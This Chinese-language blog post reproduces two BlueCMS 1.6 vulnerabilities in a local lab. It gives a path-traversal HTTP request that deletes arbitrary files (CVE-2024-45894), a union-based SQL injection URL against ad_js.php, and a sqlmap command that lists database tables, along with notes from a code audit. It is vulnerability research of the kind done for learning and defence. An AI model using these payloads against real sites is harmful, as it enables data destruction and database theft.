 #  BlueCMS 1.6漏洞复现CVE-2024-45894任意删除文件漏洞+SQL注入   
原创 TEST安全  TEST安全   2024-10-12 17:42  
  
BlueCMS 1.6漏洞复现  
CVE-2024-45894任意删除文件漏洞+SQL注入  
  
BlueCMS 1.6 安装包下载:  
```
http://www.xsssql.com/wp-content/uploads/2024/10/bluecms-master1.6.zip

```  
  
  
环境搭建:  
  
下载phpstudy，启动nignx和mysql服务  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38QBxSVMniasekTjnjV2ibaiciaZWicMK0jkptAMDPj9TlG2ZpvhveWm03CfQ/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图")  
随后创建网站，在浏览器直接访问  
  
http://127.0.0.1/install  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38sKyM1b9BplkgpnpVxIach0zXhu6b9W03Pjt8L4h5tuJ1ibH8iamEXbew/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图1")  
  
直接下一步  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38heL4Px8u7BAXZ4AzTibPic6ofhoGiaeVsXXKER7hrj7mPUia59M9nR2V9w/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图2")  
  
使用phpstudy创建数据库，并配置数据库信息![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38xFLZhwW31d1hd0Y1j3jPfRlk6vtuLxbtLsbkcfCprprGN5n74s0yicg/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图3")  
  
  
安装完成后如图:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp387r67JWHVQTUaTIXJt5CXrLibLnJ8VuBGVguj44wiauicPHG0fKNoStfeQ/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图4")  
  
   
  
访问管理后台，并登录到管理后台  
  
http://127.0.0.1/admin/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38mt2ZC6j06B3sEJrp7MChf9OOso75VUdibRULU1XxicIiaptWApPXu8mgw/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图5")  
  
通过删除robots.txt文件进行测试  
  
poc如下  
```
GET /admin/database.php?act=del&file_name=../../robots.txt HTTP/1.1
Host: 10.10.10.5
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.10.5/admin/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=6inaqq37c2kes34gfthojnbcl7
Connection: close



```  
  
直接在浏览器访问/admin/database.php?act=del&file_name=../../robots.txt 地址即可进行任意文件删除  
  
   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp383mRkkFEDgnxwscJah14pwJrr3a1qNZfckVN5TwENBqD6w2hnjSjfdg/640?wx_fmt=jpeg&from=appmsg "")  
  
以上漏洞属于CVE-2024-45894  
  
接下来我们使用seay新建项目，使用Seay进行自动审计，但这个分析只是单一的静态分析里面的代码和函数可能出现的漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38zlUsDb7g7Awm5eCYaCicNbxbZzehT0JHpSBRFygGvOibMhiby4hL58wtg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
查看ad_js.php文件  
  
ad_js.php中有变量$ad_id，这种情况就可以优先看，因此此时变量直接拼接在where列名(ad_id)之后。在注入时，大部分的注入语句都是在while后面的一个变量，通过跟踪那个变量值来注入。像上面的变量写在order by后面的就不一定能注入成功  
  
如果  
$_GET[  
'ad_id']存在且非空，则使用  
trim()函数去除ad_id字符串两侧的空白字符，然后将结果赋值给$ ad_id。如果  
$_GET[  
'ad_id']不存在或为空，则$ ad_id被赋值为空字符串  
''。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38vwy9Y3iaC1Gdbicp9JGU1f0v7DmKlxGjpiaIr9AiaicaiaibCqzk9pib4vY6AA/640?wx_fmt=jpeg&from=appmsg "")  
  
   
  
getone不是php的官方函数，那就是自定义函数，其功能应该是执行后面的SQL语句并将其值赋值给$ad，疑似有sql注入  
  
通过查找文件发现getone方法在/include/mysql.class.php里面，查看函数声明  
  
函数并没有过滤数据也没有进行参数化查看  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38VuDNV61AGp4fq0icTia4eddMCbhMCwglic3wqvGRnslESGrO1aNkwCGpg/640?wx_fmt=jpeg&from=appmsg "")  
  
```
    function getone($sql, $type=MYSQL_ASSOC){
      $query = $this->query($sql,$this->linkid);
      $row = mysql_fetch_array($query, $type);
      return $row;
    }
    

```  
  
在浏览器访问测试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38gkibiaO9RaicVHm3ibI41pkJ62qrn2jO6TMzBteibKG7docDIAfaazwLE1Q/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图10")  
  
此处为了方便查看可以把sql语句打印输出  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38nM4MrZz7pqH9QiaU4hdHm9aUbeBtia94kviagkhbrIahBWzgmzBScWTHg/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图11")  
  
   
  
构造sql语句进行测试  
```
http://10.10.10.5/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,database()

```  
  
但是并没有结果回显。因为在getone函数执行sql语句之后并没有将结果进行输出，所以此类注入点一般采用延迟注入或者是报错注入(无回显)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38NOFQTN9IcKsNWdhUiadVLnPo8lWC8wgh5efvvLlnROh3US7aONfeicDg/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图12")  
  
使用sqlmap进行注入:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38oDjTOSw7d3e31NKoGYt043ShH6ConZib2TA7exGiac1r6ofr1dHY9LbA/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图13")  
  
   
  
通过sqlmay注入获取表名:  
  
sqlmap -u "http://10.10.10.5/ad_js.php?ad_id=0" -D testsce --tables  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/h8pLcJKTvuibeZze800L2uOibymAvsGp38X1GnUIU44QWXMDWR9HB0L1DfOEmaOic11Y8XIYzk6F9dScLZtFxdudg/640?wx_fmt=jpeg&from=appmsg "BlueCMS 1.6任意删除文件漏洞复现CVE-2024-45894插图14")  
  
  
